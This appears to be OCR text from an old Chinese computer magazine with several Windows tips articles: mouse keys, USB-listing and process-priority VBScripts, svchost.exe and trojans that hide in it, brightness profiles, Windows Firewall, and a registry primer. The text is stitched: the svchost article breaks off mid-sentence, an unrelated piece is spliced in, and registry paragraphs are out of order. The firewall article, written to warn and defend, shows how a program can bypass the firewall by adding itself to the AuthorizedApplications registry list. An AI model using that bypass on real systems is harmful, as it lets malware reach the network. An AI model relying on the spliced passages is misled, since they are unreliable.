首先选择“开始→设置→控制面板”，在“控制面板”中双击“辅助功能选项”，在弹出窗口中选择“鼠标”选项卡，勾选“使用鼠标键”，然后点击其右侧的“设置”按钮，勾选“使用快捷键”，再将下面的“最高速度”、“加速度”都调到最高(建议这样设置，因为即使是最高仍然不算太快)，点击“确定”完成。以后使用时按下“Alt+Shift+NumLock”即可开启键盘的鼠标功能，使用右边小键盘的数字键，八个方向“上”“下”“左”“右”“左上”“左下”“右上”“右下”，“5”是确认。另外，可以通过NumLock键来控制此功能的开启与禁用，禁用时会在系统托盘中的鼠标图标上出现一个红色的禁止符。

把USB设备揪出来

键盘、鼠标、读卡器，现在使用USB接口的设备实在不少，甚至还出现了USB风扇之类的搞笑产品，你的计算机上到底接上了多少个USB设备？用这段脚本来算一算吧。

打开“记事本”，输入以下代码(也可从http://www.newhua.com/cfan/200516/getusb.zip下载)。

```
strComputer = "."
Set objWMIService = GetObject("winmgmts:" & strComputer & "\root\cimv2")
Set colDevices = objWMIService.ExecQuery("Select * From Win32_USBControllerDevice")
For Each objDevice in colDevices
    strDeviceName = objDevice.Dependent
    strQuotes = Chr(34)
    strDeviceName = Replace(strDeviceName, strQuotes, "")
    arrDeviceNames = Split(strDeviceName, "=")
    strDeviceName = arrDeviceNames(1)
    Set colUSBDevices = objWMIService.ExecQuery("Select * From Win32_PnPEntity Where DeviceID = '" & strDeviceName & "'")
    For Each objUSBDevice in colUSBDevices
        Wscript.Echo objUSBDevice.Description
    Next
Next
```

双击执行一下，就会自动弹出对话框提示你当前已经接入的USB设备，是不是很神奇？

亦真亦假的Svchost.exe

系统蓝色档案

关于“系统蓝色档案”栏目
Svchost.exe、lsass.exe、wdfmgr.exe，打开进程列表后你会发现一大堆不知用途的进程，究竟是系统进程还是木马病毒？如果打开系统文件夹，一大堆奇奇怪怪名称的文件，更是会把你弄得晕头转向。很多朋友因此始终抱有一种未知的恐惧，认为木马、黑客无处不在，即使是高手，也不能把这些陌生的系统文件说个明明白白。为消除大家的疑惑，从这期开始为大家带来一档新的连载栏目——系统蓝色档案为大家曝光这些隐秘文件的秘密。和DOS快餐店一样，这次同样有两位主人公，现在就来认识一下。

紧急状况：系统发现严重病毒！

小菜刚刚学习了进程的概念和知识，于是就打开“任务管理器”观察系统中的进程，这一看不要紧，还真发现了一个“病毒”——Svchost.exe，这家伙在系统进程列表中竟然有5个之多(见图1)，于是小菜就逐个结束这些进程，没想到第二个进程结束后还会再生，而结束第四个进程时更离谱，系统提示“系统即将关机，离关机还有60秒”，进程再生、错误提示，这些典型的病毒“症状”更让小菜相信“Svchost.exe”是病毒无疑，但无法结束进程，又该怎么清除病毒呢？小菜只好请来了大嘴。

| 映像名称   | PID  | 用户名   | CPU  |
|------------|------|----------|------|
| VPFav.exe  | 824  | XiuRui   | 00   |
| TypeAdv.exe| 2580 | XiuRui   | 00   |
| svchost.exe| 1924 | SYSTEM   | 00   |
| svchost.exe| 1980 | SYSTEM   | 00   |
| svchost.exe| 1038 | SYSTEM   | 00   |
| svchost.exe| 1580 | SYSTEM   | 00   |
| SPOOLSV.EXE| 1564 | SYSTEM   | 00   |
| ...        | ...  | ...      | ...  |

大嘴过来后还没看电脑，就先告诉小菜，系统中的Svchost.exe进程是正常系统进程，不是病毒，不仅仅是你，其他朋友一看到系统中这么多的Svchost.exe进程，第一反应也感觉它是病毒，虽然系统中存在多个Svchost.exe进程是正常的，但也不保证都是正常的，听起来似乎有些矛盾？这让小菜更有些迷糊，大嘴坐下后给小菜详细讲了起来。

松了口气:Svchost.exe是台“CD机”

## 1.服务装在“CD机”里
Svchost.exe是NT内核操作系统(Windows 2000/XP/2003都属于NT内核操作系统)独有的进程，“Svchost”其实就是“Service Host”(服务宿主)的缩写。微软官方对它的定义是：Svchost.exe是从动态链接库(DLL)中运行服务的通用主机进程名称，通俗讲，它就是一个服务装载器。大家可以把每个服务想像成一张音乐CD，而Svchost.exe就是用来播放这种CD的CD机。

## 2.为什么用“CD机”装载服务

由于Windows 2000/XP系统服务越来越多，以EXE单独进程的形式启动所有服务会大大增加系统负担，为节省系统资源，微软将一些系统服务以动态链接库(DLL)形式实现，而Svchost.exe就是用来装载这些DLL文件以启动系统服务的程序。没有人会为了发行一张CD而制作一台专门播放此CD的CD机，微软也一样。

## 3.系统里有几台这样的“CD机”

那为什么系统进程列表中的Svchost.exe会有多台呢？微软为了让系统能更好地进行服务控制，就允许将多个Svchost.exe进程同时运行，每个Svchost.exe进程可以包含一组服务，想像一下可以同时容纳3张甚至更多CD的多碟CD机。打开注册表[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Svchost]，在窗口右侧可以看到许多键值，这里的每个键值都代表一组服务，键值数据则包含了该组服务下面运行的服务名称列表，每组服务启动时都会通过单独的Svchost.exe进程来装载。Windows XP中默认共有六组服务(见图2)，其中imgSvc、NetworkService、rpss、termsvcs四个组，它们都只有一个服务运行，这些服务启动后的Svchost.exe进程用户名为“SYSTEM”。而LocalService和netsvcs组都启动了多个服务，它们的Svchost.exe进程用户名分别为“LOCAL SERVICE”和“NETWORK SERVICE”，从图1中可以看到这种区别。

## 4.获取每张“CD”的详细信息

如果想更进一步了解Svchost.exe装载的这些服务都是什么功能，可以记下键值数据中的服务名称，例如“RpcSs”，接着打开注册表[HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services]，再打开下面的“RpcSs”子键，在右边的“Description”键值中就可以看到该服务的描述，而在“ImagePath”键值数据中则可以看到这个服务的运行命令正是“%SystemRoot%\system32\svchost -k rpcss”，而在“RpcSs”子键下还有一个“Parameters”(参数)子键，其右边的“ServiceDll”键值数据“%SystemRoot%\system32\rpcss.dll”则表明了RpcSs服务启动时调用的是系统目录下的“Rpcss.dll”文件，这就好比你原来只知道CD中歌曲的歌名，现在又让你能够查到这首歌的演唱者。
如果觉得通过注册表查询服务名称了解其属性不太方便，也可以使用“全能助手用Windows服务管理专家”(以下简称“服务管理专家”)来查询，运行软件后单击“All Win32 Services”分支，在右侧服务列表中根据服务名称索引即可快速找到要查询的服务，单击服务名称，即可看到该服务的启动命令以及调用的DLL文件等相关信息(见图3)。同时软件还专门设计了Svchost Group分支，可以快速查询LocalService和netsvcs组中的服务详细信息。

危机仍在:小心病毒的骗局

由于Svchost.exe进程的特殊性，它隐藏了真正运行的程序的名称，在表面看到的只是Svchost.exe进程，这个特性同时也让许多病毒、木马有空可钻，企图以此迷惑我们。那么如何判断系统中的多个Svchost.exe进程是否正常呢？下面针对这类病毒常用的几种欺骗手法进行分析。

骗局1:利用假冒Svchost.exe名称的病毒程序

这种方式运行的病毒并没有直接利用真正的Svchost.exe进程，而是启动了另外一个名称同样是Svchost.exe的病毒进程，由于这个假冒的病毒进程并没有加载系统服务，它和真正的Svchost.exe进程是不同的，我们只需在命令行窗口中运行一下“Tasklist /svc”(在Windows XP下可用)，如果看到哪个Svchost.exe进程后面提示的服务信息是“暂缺”，而不是一个具体的服务名，那么它就很有可能是病毒进程了，记下这个病毒进程对应的PID数值(进程标识符)，即可在任务管理器的进程列表中找到它，结束后，在C盘搜索Svchost.exe文件，也可以用第三方进程工具直接查看该进程的路径；正常的Svchost.exe文件是位于%systemroot%\System32目录中的，而假冒的Svchost.exe病毒文件或木马文件则会在其他目录，例如“W32.Welchia.Worm”病毒假冒的Svchost.exe就隐藏在Windows\System32\Wins目录中，将其删除，并彻底清除病毒的其他数据即可。

骗局2:一些高级病毒则采用类似系统服务启动的方式

- 添加一个新的服务组，在组里添加病毒服务名
- 在现有服务组里直接添加病毒服务名
- 修改现有服务组里的服务属性，修改其ServiceDll键值指向病毒程序

病毒程序要通过真正的Svchost.exe进程加载，就必须修改相关的注册表数据，我们可以打开[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Svchost]，观察有没有增加新的服务组，同时要留意服务组中的服务列表，观察有没有可疑的服务名称，通常来说，病毒不会只在一个服务名称的组中添加，往往会选择LocalService和netsvcs这两个加载服务较多的组，以干扰我们的分析，还有通过修改服务属性指向病毒程序的，通过注册表判断起来都比较困难，这时我们可以利用前面介绍的服务管理专家，分别打开LocalService和netsvcs分支，逐个检查右边服务列表中的服务属性，尤其要注意服务描述信息全部为英文的，很可能是第三方安装的服务，同时要结合它的文件描述、版本、公司等相关信息，进行综合判断。例如这个名为PortLess BackDoor的木马程序，我们在服务列表中可以看到它的服务描述为“Intranet”## 小编们的‘酷男’电脑

每天同在编辑部上班，小编们却有各自不同的烦恼，这些烦恼在每天4:30下班后不约而同地准时爆发出来……

狂PK：“谁又通过我的电脑连接打印机啦！？我拿着A K 竟然会被人用刀刺死了，555~”原来狂PK所用的CPU是毒龙750，一旦有人使用过他电脑上的打印机，系统速度就会慢得不行，甚至进入假死状，直到打印结束。

阿健：“白天要看一大堆稿件，保护视力很重要，所以把显示器亮度调得比较低。我打开最爱的《三角洲特种部队5 —— 黑鹰坠落》时每次都感觉在黑夜中行进……重新设置亮度太麻烦了。”

Cornel：“哎，真麻烦。我负责的‘我拍我拍拍拍’栏目每次都要处理一大堆图片，用Photoshop时设置的鼠标移动速度放在平时显得太慢，来回切换实在太麻烦了！”

小特：“上班的时候人太多，要把音量调高才能好好听音乐，下班之后太静了倒反觉得音量高了。”

## 听话的进程优先级

作为系统应用版块的编辑，狂PK自然有系统特色的解决之道。每次在进行重要操作前，他都会将相关的进程优先级设为“高于标准”，这样即使遇到联机打印的情况，也不会出现严重卡机了。通常做法是打开“任务管理器”，选中运行中的进程，右击选择菜单“设置优先级→高于标准”。但CS这类游戏程序，一旦运行后就是全屏，再切换到Windows中调节进程优先级非常不方便，来看看他是怎么解决的(以下脚本在Windows XP SP2中测试通过)。

- 1. 与生俱来：让程序运行时即拥有高优先级
- 2. 后天拥有：已经运行的程序快速提高优先级

```vbscript
Const ABOVE_NORMAL = 32768
strComputer = "."
Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
objConfig.PriorityClass = ABOVE_NORMAL
Set objProcess = GetObject("winmgmts:\\" & strComputer & "\root\cimv2:Win32_Process")
objProcess.Create "D:\Program Files\EmEditor\emeditor.exe", Null, objConfig, intProcessID
```

将代码中的程序路径 “D:\Program Files\EmEditor\emeditor.exe” 改为要使用高优先级运行程序的所在路径。要运行该程序时，只需双击运行该脚本即可。

而它的文件版本、公司、描述信息更全部为空(见图4)，如果是微软的系统服务程序是绝对不可能出现这种现象的。从启动信息“C:\WINDOWS\System32\svchost.exe -k netsvcs”中可以看出这是一款典型的利用Svchost.exe进程加载运行的木马，知道了其原理，消除方法也很简单了: 先用服务管理专家停止该服务的运行，然后运行regedit.exe打开“注册表编辑器”，删除[HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\IPRIP]主键，重新启动计算机，再删除%systemroot%\System32目录中的木马源程序“svchost.dll”，通过按时间排序，又发现了时间完全相同的木马安装程序“PortlessInst.exe”，一并删除即可。



## 给显示器添加高亮模式

有些品牌或型号的显示器具有一种称为“高亮模式”的功能，也就是在需要高亮显示的时候，只要按下显示器上的一个按钮就能把它的亮度提高到预设的值。并不是每台显示器都具有这个功能，我们能否以软件方式给显示器添加这个特色功能呢？阿健在显卡驱动程序中找到了解决方法，并且实现了运行特定程序后自动更改亮度的功能(以下实例在nVidia显卡 + Forceware 77.56版本驱动中测试通过，如果某些设置找不到，建议升级到此版本或更高版本的驱动)。



第一步: 右击桌面空白处，选择“属性”，然后在弹出的“显示属性”窗口中选择“设置”选项卡，点击“高级”，在弹出窗口中打开以显卡型号命名的选项卡。

第二步: 在窗口左侧的悬浮栏中选择“色彩校正”，接着在右侧窗口中拖动“亮度”控制条直至需要的亮度，如150%。点击窗口下半部分的“另存为”按钮(见图1)，在弹出的“保存设置”窗口的输入框中为这个高亮的颜色配置方案取一个名字，如“HIGHLIGHT”，点击“确定”保存，点击“恢复默认设置”把当前亮度调回正常水平。

第三步: 点击左侧悬浮栏中的“性能和质量设置”，然后在右侧窗口中点击“添加配置”。在弹出窗口的“配置文件”输入框中填入一个配置文件名称，如Df5，接着点击“浏览”，在文件选择框中选择好要应用高亮模式的程序，如DFBHD.exe(《三角洲特种部队5》的游戏主程序)，确保选择的这个程序在“相关的应用程序”列表框中已被勾选，点击“确定”。

第四步: 点击“用于DF5的设置”中“查看”下拉框并将其设置为“高级设置”，在下方的设置列表中勾选“颜色配置”，然后在窗口底部出现的“颜色配置文件”下拉框中选择刚才建立的“自定义-HIGHLIGHT”，点击“确定”完成配置(见图2)。



现在运行刚才指定的游戏后，亮度就被自动提升为预设的值了，游戏退出后，亮度又被自动恢复了回来。

> ★如果你的显卡不具备这种功能的驱动程序，或者对于某些游戏无法应用颜色配置方案，可以试试一款叫Gamma Panel的免费小软件(下载地址:http://nj.onlinedown.net/soft/36528.htm)，它可以让你用热键来打开预设的亮度方案。
> 
> ★有不少游戏可以直接设置亮度,也就是只要一启动即可自动调整亮度，比如《魔兽世界》的“视频设置”可以调节Gamma的选项，通过它就能不使用桌面原来的亮度而单独设置。

## 我的鼠标活了

鼠标是死的，在不同场合不会自动调节，即使Cornel的IE 3.0鼠标也是如此。在Photoshop中处理图片时需要较低的灵敏度，而在游戏或其他应用时往往需要更高的灵敏度。

Mouse-Master小档案
软件版本:1.5
软件大小:1.22MB
软件性质:共享软件
运行环境:Windows 9x/2000/XP
下载链接:http://www.4gsoft.net/download/MouseMaster_Setup.exe
小软件备注:该软件的1.2版本是没有功能限制的，1.5版本有15天使用限制，需要长期使用的朋友可以找找老版本。

- 1. 下载并安装Mouse-Master，双击桌面上生成的Mouse-Master快捷方式打开程序，在屏幕右下角的系统托盘中就出现了一个鼠标状的小图标，右击该图标选择“Show Main Form”打开软件主界面。
- 2. 点击软件左侧栏上的“Application Entries”，在窗口右侧的列表下方点击“Add”按钮，然后在弹出窗口中的“Application”框中输入要重新设置灵敏度的程序路径，建议点击其右侧的“...”按钮进行选择。确保窗口右上角的“Enable”复选框被勾选，接着在“Mouse Setting”的“Sensitivity”中设置一个合适的鼠标灵敏度，如Photoshop的灵敏度建议设为6或更低，“Acceleration”设置为“Low”或者“None”，点击“OK”保存设置。
- 3. 回到主界面，点击“Save”保存设置，将窗口最小化至系统托盘中，现在一旦运行刚才设置的程序，则鼠标自动更改到预定的设置; 一旦结束该程序，则鼠标灵敏度又恢复到原来的状态。

## 电脑音量也玩抑扬顿挫

小特这个foobar2000狂最近投入了千千静听的怀抱，从早到晚听MP3的习惯仍然未变(小特:“嘘～小心FLP听到……”)，如何根据周围环境的变化来实时调整音量设置呢？可以使用本刊2005年第16期《不装软件，也玩专业录音》介绍的Edifier EasyVOL(下载地址:http://www.newhua.com/cfan/200516/edvol.rar)来解决，使用内置的四种音量场景即可。

## Windows防火墙安全鉴定书

打开“网络连接”，在其中你会发现有些连接图标上有一个小小的锁状图案。这就表示此连接已受到Windows Firewall的保护，那么Windows Firewall是什么呢？

### 身份大公开

### 1.真实身份:ICF增强版

Windows XP/2003中原来曾经自带一个称为ICF(Internet Connection Firewall)的防火墙，但由于功能简单加之其设置方法相对隐蔽，所以致使很多用户甚至根本不知道有ICF这个东西存在。直到Windows XP SP2 RC版之后，才由原来的ICF升级为现在的Windows Firewall，即Windows防火墙(SP2早期的Beta版本中仍然使用ICF)，并且集成在Windows XP SP2另一个新组件“安全中心”里。

### 2.为什么用Windows Firewall

Windows XP的目标就是集成大多数常用软件的基本功能，显然微软原先也是以此定位来设计ICF的。但ICF实在是个失败产品，而迫切渴望在网络防火墙领域尽快分一杯羹的微软终于下决心在Windows XP的SP2中集成全新的Windows Firewall。至于为什么要用Windows Firewall，基本可以归纳为2点：
①集成在Windows XP中，无需额外安装（这就是垄断的力量）。
②工作于系统最底层，效率最高（没有一家公司会比微软更了解其自己的产品）。

### 3.大家对Windows Firewall的评价

目前对Windows Firewall的评价大多来自网上，网上流传着一种说法：Windows Firewall很弱，防外不防内。什么是“防外不防内”？是否真的“防外不防内”？今天我们通过实验来鉴定这种说法，在此之前，先来介绍一下Windows Firewall的基本使用。

### 教你学用Windows Firewall

### 1.防火墙的开启

- 第一步：打开“网络连接”，在其中选中需要添加防火墙的连接图标，右击此图标选择“属性”。
- 第二步：在弹出的连接属性窗口中，选择“高级”选项卡，在下方的“Windows防火墙”栏中点击“设置”按钮。
- 第三步：在“Windows防火墙”窗口的“常规”选项中，选择“启用”。

警告：如果勾选了“不允许例外”，防火墙在阻止程序时不会提示用户，而且会忽略“例外”选项页中建立的规则，这样就最大限度地保证了计算机系统的安全性。一般该功能应用于公共场所的计算机，启用该功能后系统将只能使用Windows自带的程序进行网络通讯(比如IE和OE)。

### 2.规则谁来定

通常防火墙都有自己一套默认的规则，并且允许用户在使用过程中添加自定义的规则以便允许或禁止特定程序用相应的端口发送/接收外网的数据。而Windows Firewall也不例外，不过其默认规则只有四条，而且这些默认规则是不可以删除的。

防火墙自定义规则可以由系统自动添加或者是用户手动添加。

### ①自动添加

我们在第一次使用应用程序进行网络通讯时，Windows Firewall默认都会自动弹出如图所示的对话框，提示是否阻止程序进行网络通讯。可供选择的按钮有“保持阻止”或“解除阻止”，系统都会自动在Windows Firewall中添加一个应用程序的规则。点击“保持阻止”时自动去除该规则的勾选，表示该条规则未生效，此应用程序仍无法访问网络；而点击“解除阻止”时则自动在列表中勾选该规则，表示该程序可以进行网络通讯。



### ②手动添加

在“Windows防火墙”设置窗口中选择“例外”选项卡，点击“添加程序”按钮并在弹出窗口中选择需要创建规则的应用程序。而“添加端口”按钮则可以设置开放一个特定端口，这样以后所有程序都可以通过该端口访问网络而不会提示被阻止。“编辑”和“删除”按钮可以分别对现有规则进行设置和删除。另外，在选择“添加程序”、“添加端口”和“编辑”时，点击其窗口下方的“更改范围”按钮可以选择该规则的应用范围，比如“任何计算机(包括Internet上的计算机)”、“仅我的网络(子网)”还是“自定义列表”。

### 实例:只让局域网中IP为192.168.0.2的计算机访问我的共享资源

在“Windows防火墙”设置窗口中选择“例外”选项卡，在其中的“程序和服务”列表中选中“文件和打印机共享”(确认该项为已勾选状态)，点击下方的“编辑”按钮。点击弹出的“编辑服务”窗口左下角的“更改范围”按钮，选择“自定义列表”，并在其下方的输入框中输入“192.168.0.2”(不含引号)，点击“确定”按钮关闭窗口并保存设置。

### 3.网络连接故障解决

- ①一些BT下载软件无法正常连接或下载速度奇慢。
解决方法：在“程序和服务”列表中勾选“UPnP框架”。
- ②文件共享权限已经设置好了，但别人就是无法连接。
解决方法：在“程序和服务”列表中勾选“文件和打印机共享”。
- ③远程协助和远程桌面功能无法正常使用。
解决方法：在“程序和服务”列表中勾选对应的“远程协助”及“远程桌面”。

### 4.其他问题

- ①设置错误出了问题怎么办
在“Windows防火墙”设置窗口中选择“高级选项卡”，在最下方的“默认设置”框中点击“还原为默认值”。
- ②有多条网络连接，不想都使用Windows Firewall
在“Windows防火墙”设置窗口中选择“高级”选项卡，在“网络连接设置”框的连接列表中去除不想启用Windows防火墙的连接项的勾选，点击“确定”保存设置。

### 看透Windows Firewall的弱点

### 1.“防外不防内”是否属实

网上一直流传Windows Firewall防外不防内的弱点，有些网友担心这样会导致数据外泄。其实所谓的“防外不防内”是指程序对外发送数据时防火墙不会拦截，而接受外网数据时防火墙才会拦截。而Windows Firewall和以前版本中的ICF一样，不会拦截本地对外的主动出站连接，同时也不会拦截由于出站初始化造成的入站数据，但并不说明这样就会造成数据的泄露，因为程序在建立对外传输数据的连接时，还需要接收来自外网的ACK应答信息，此时防火墙就会拦截了。所以说“防外不防内”的说法是不确切的。

### 2.惊天漏洞揭秘

在确认“防外不防内”的说法不正确后，可能很多朋友都以为这个防火墙完美无缺了。不过，在对Windows Firewall进行了较为深入的研究后，笔者发现其存在致命的缺陷！

首先，Windows Firewall中建立的所有规则都是存放在注册表中的。经过分析，我们找到了这个分支：[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\AuthorizedApplications\List]。

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\AuthorizedApplications\List
```

在其下以应用程序完整路径作为名称新建字符串值，键值由程序的完整路径开头，以冒号隔开，后面依次为开放的端口、操作、防火墙中的显示数据，以MSN Messenger(以下简称MSN)为例：

```
G:\Program Files\MSN Messenger\msnmsgr.exe:*:Enabled:MSN Messenger
```

其中“G:\Program Files\MSN Messenger\msnmsgr.exe”是MSN的完整路径；“*”是指任何端口；“Enabled”是指允许访问网络(也就是刚才设置列表中的勾选状态)，如改为“Disabled”则为禁止访问网络；最后的“MSN Messenger”是这条规则在Windows Firewall规则列表中显示的名称。

这也就是说，无论任何程序(包括正常的程序或者有害的病毒、木马程序)，只要将自身加入这个注册表位置，就能够绕过Windows Firewall访问网络！已经有报告指出网上已经出现了一些利用该方法绕过Windows Firewall的间谍程序(Spyware)。这真的是微软的一个设计缺陷吗？

### 3.“缺陷”的由来

在Windows XP的权限规则中，Users组是无权对Windows Firewall进行设置的，也就是说如果用户以Users组成员的账户登录系统，他根本无法更改注册表中关于防火墙规则的分支，他所运行的程序也无权对注册表中的这个位置进行更改。但我们习惯于使用Administrator账户登录系统，自然就被病毒得手了。

### 4.绕过“缺陷”保安全

- ①使用第三方防火墙取代Windows Firewall，如Outpost Firewall。
- ②根据微软提倡的方法使用计算机：日常操作时使用Users组用户登录，进行系统设置或者安装软件时使用Administrators等高权限的组用户登录。
- ③经常留意Windows Firewall中的例外规则列表，发现可疑程序立即删除。

(Heelen)

## 让Windows进入游戏模式

游戏玩家可能深有体会，在配置不高的电脑上，先使用一段时间，比如上网聊聊天，听听音乐再看会儿电影之后，如果再运行电脑游戏，可能就会带来跳帧影响游戏流畅度的问题。另外，在Windows中经常因为按了Win键而退出游戏，即使再回到游戏中也会有一些副作用，比如CS中就会听不到声音，虽然以前曾经介绍过很多屏蔽Win键的方法，但大多需要使用小工具，有没有什么办法能让Windows进入游戏模式呢(以下方法仅适用于Windows 2000/XP)？

按Ctrl + Alt + Del点击“任务管理器”，然后在进程列表中右击explorer.exe进程，选择“结束进程”。这样做不但可以释放不少系统资源(尤其在explorer.exe占用CPU较高的情况下)，另外也会使Win键暂时失效。此时在“任务管理器”中选择菜单“查看→更新速度→暂停”，注意这个选项应在游戏完后改回原值，这样就停止了“任务管理器”的自动性能采样(不然关了explorer.exe却又增加了别的系统开销，就太不值得了)，然后选择菜单“文件→新建任务(运行)”，选择游戏程序打开即可。在结束游戏退出后，要恢复原来的桌面状态，只需重新运行explorer.exe。有的朋友原先可能经常使用Win键强制退出游戏以逃避BOSS的法眼，偷偷告诉你：结束explorer.exe后，Alt + Tab还是可以使用的。

(小刀杀手)## 从零讲起 彻底走出注册表迷雾

Windows 始终有一块菜鸟的禁区，那就是注册表。Windows 将其运行时所需的配置信息存储在以树状格式组织的数据库（注册表）中，只要知道设置对应的注册表位置，就能对系统中几乎所有设置进行修改。但微软官方对于注册表方面的资料实在有限，菜鸟对于注册表操作就更感觉无从下手了，就像在黑暗中行走。

### 4 盏照明灯带你走出注册表误区

### 误区1：普通用户不应该修改注册表

微软对于注册表的态度一直有些隐晦，甚至在帮助文件中都写道：“尽管可以用注册表编辑器查看和修改注册表，但通常不必这样做，因为更改不正确可能会损坏系统。” 微软希望所有的系统设置都能够在其设计的系统管理工具中进行，而不是修改注册表。正因为微软自身都对用户修改注册表抱持不置可否的态度，所以大多数用户始终对注册表有一种敬畏心理。

#### 照明灯

实际只要掌握了注册表的基本知识和“注册表编辑器”使用方法，就能进行修改。尽管微软提供的资料不多，但从 Google 上搜索相关的关键字（如“修改注册表+去掉快捷方式小箭头”）就能找到相应的注册表位置。

### 误区2：注册表=注册表编辑器

这可能是一个最让菜鸟混淆的概念了，很多人都认为“注册表”和“注册表编辑器”（见图1）是一种东西。

菜鸟A：“什么是 Windows 的注册表呢？”
菜鸟B：“这个我知道，不就是 regedit.exe 吗？依次点击“开始→运行”，输入 regedit.exe 打开的就是注册表啦！”
老鸟A：“噢，原来是这样。不过用 regedt32.exe 不是也能改注册表吗？难道有2个注册表？”

#### 照明灯

注册表是一个保存系统、软件设置数据的数据库，而“注册表编辑器”只是对于这个数据库的读取/修改工具。这种概念的错误就好比你将记录营业额的 Excel 表格与打开此表格的 Excel 软件都称作“营业额表格”。在 Windows 9x/2000 中，regedit.exe 和 regedt32.exe 是两个程序，其中 regedt32.exe 无法进行 REG 文件的导入，也无法在 DOS（16位状态）下运行；而在 Windows XP 中，使用 regedit.exe 和 regedt32.exe 打开的其实是同一个程序，regedt32.exe 的功能只不过是调用 regedit.exe。

### 误区3：系统的永动机—无限提升系统性能

刚才说到在注册表中存放了系统的软硬件设置数据，也就是说，只要修改得当，能在一定程度提升系统性能。有些朋友刚学会修改注册表，就以为修改注册表可以无限提升系统性能，并且因此频繁修改注册表。

#### 照明灯

适当地修改注册表可以提升系统性能，但这种提升是以硬件为基础的，只有当操作系统本身的设置相对于硬件系统来说比较保守时，我们才有可能通过修改相关设置来发掘硬件本身的潜能，使系统得到优化。但如果硬件本身就不怎么样，通过修改注册表来提升系统性能便只能成为一种奢望。如果真能这样大家就不必掏银子升级旧机器了，只需改改注册表就行了 ^O^

### 误区4：舍近求远

先来看一个例子：在 Windows XP 中，默认启用的“分组相似任务栏按钮”功能可以使原来日益拥挤的任务栏变得宽敞起来，可是用惯了 Windows 98/2000 的用户可能会觉得不习惯，想要禁用这个功能。有些朋友就会自然地想到寻找注册表中的修改位置，最后好不容易找到了注册表中禁用此功能的方法：打开“注册表编辑器”，找到 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced]，将其下的“TaskbarGlomming”键值改为 0 来达到目的。

其实系统本身已经提供了相应的设置方法，只要右键单击任务栏空白处并选择“属性”，然后在“任务栏属性”窗口中去除“分组相似任务栏按钮”的勾选即可（见图2）。

#### 照明灯

从这个例子就可以看出，其实在注册表中的绝大多数选项，Windows 本身就提供了直观的修改方法。如果同样能达到目的，又何必舍近求远呢？有很多网站提供的技巧中都包含此类“伪技巧”。有一个简单的识别方法：在网上搜索到了注册表的修改位置后，打开“注册表编辑器”检查这个注册表位置中对应的选项键值是否存在，如果不需要新建则多数是真的，而如果已经存在了，则很有可能在系统中已经提供了相应的设置功能。

### 3 个疑问让你认清注册表的真面目

### 1. 为什么一定要使用注册表

或许你会问，注册表既复杂，修改不当又容易引发系统故障，而 DOS 或早期的 Windows 没有注册表却也能正常工作，那么现在的 Windows 为什么一定需要注册表呢？

DOS 是一个纯命令操作平台，没有图形界面，一切操作均通过命令的方式来解决。要打开文本文件 1.txt 需要输入“edit 1.txt”命令才行，也就是说“要打开什么文件”、“用什么程序打开此文件”这些问题都必须由你来告诉计算机。而在现在的 Windows 系统中，要打开 1.txt 只需在“资源管理器”中双击此文件即可，你只需指定要打开的文件，计算机就会根据你要打开的文件类型自动选择合适的应用程序进行操作，这种智能的打开方法就是由注册表中保存的“文件关联”数据（除了“文件关联”外，注册表还存放了其他很多重要的设置数据）。这种发展是由系统的复杂性决定的，在 DOS 时代可能无需这种机制，但如果现在 Windows 没有“文件关联”（见图3），那成千上万种文件类型一定会使你看花眼的。

一个致命的弱点就是大小不能超过 64KB，随着软硬件功能的日益进步，其所需的配置数据体积也在不断膨胀，INI 文件早已无法满足这种数据量的需求了。另外，INI 其实是依据某种定义规范的文本文件（见图4），编辑过程极易出错并由此导致系统故障。为了克服这些问题，在 Windows 95 及其后的版本中，Windows 系统都无一例外地采用了注册表机制，并将原来由多个 INI 组成的软硬件配置信息统一到了一起，形成一个数据库，那就是注册表。

### 2. 注册表的“妈妈”是谁

Windows 设计之初，并没有采用注册表这种方式来存放软硬件配置信息，而是使用了两个扩展名为 INI 的文件（system.ini 和 win.ini）。对于 INI 文件大家应该很熟悉了，很多“绿色软件”都声称其不在注册表中写入任何数据，但大多会在其安装目录下留有一个或几个 INI 文件。既然当初使用的是 INI，为什么后来又改成注册表了呢？这是因为 INI 文件有

### 3. 注册表的“家”在哪里

既然注册表是一个数据库，那么这个数据库文件在哪里呢？其实，难怪不少刚接触电脑的朋友误以为 Regedit.exe 就是注册表，这是由于对注册表数据库的组成不清楚而造成的。Windows 98 注册表的数据文件主要由 System.dat 和 User.dat 这两个文件组成，并保存在 C:\Windows 目录下，其中 System.dat 存储的是系统和硬件相关的配置，而 User.dat 则保存软件配置和用户配置。Windows 2000/XP 注册表的数据文件主要存储在 %Windir%\System32\config 目录中的 Default、Sam、Security、System、Software 和 Userdiff 等 6 个文件中，除此之外，还有部分数据则保存在用户的配置文件目录中，比如 Windows 2000/XP 中的 Administrator 的部分注册表数据就保存在 C:\Documents and Settings\Administrator 目录中的 Ntuser.dat 文件中，所以只要 Administrator 登录系统后其目录下的 NTUSER.DAT 文件就不能被删除，因为它已经被加载到注册表中了。

### 2 个知识点理清错综复杂的注册表脉络

### 1. 查查注册表元素的身份证

运行 regedit.exe 打开“注册表编辑器”，就能在其左侧看到注册表的分支结构。其中以文件夹方式表示的称为“键”，而在选中一个键后在窗口右侧显示的则称为“项”。在网上搜索到的修改教程中经常会提到“根键”、“主键”、“子键”、“键值项”，是什么意思呢？（见图5）

①根键（Root key）是指在注册表编辑器左侧以“HKEY”作为名称前缀的位置，因其位于注册表最顶层被称为根键，如 Windows XP 注册表中包括五大根键，分别为[HKEY_CLASSES_ROOT]、[HKEY_CURRENT_USER]、

### 2. 真正的根键只有两个

